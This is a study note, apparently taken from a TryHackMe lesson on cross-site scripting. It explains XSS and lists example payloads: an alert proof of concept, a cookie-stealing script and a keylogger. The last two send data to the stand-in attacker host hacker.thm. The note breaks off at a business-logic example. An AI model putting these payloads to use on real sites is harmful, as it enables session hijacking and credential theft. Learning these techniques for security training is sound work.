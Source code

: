 ```yaml
---
sr-due: 2025-05-09
sr-interval: 1
sr-ease: 230
---
```


#review 

XXS is based on JavaScript, it is helpful to have a basic understanding of the language

Cross-Site Scripting, better known as XSS in the cybersecurity community, is ==classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. ==

# XSS Payloads

In XSS the payload is the JavaScript code we wish to execute on the targets computer

The intention is what you wish to JavaScript to actually do and the modification is the changes to the code we need to make it execute as every scenario is different. 

**Proof Of Concept:**

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

``` javascript
<script>alert('XSS');</script>
```

**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

``` javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

``` javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

**Business Logic:**

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:
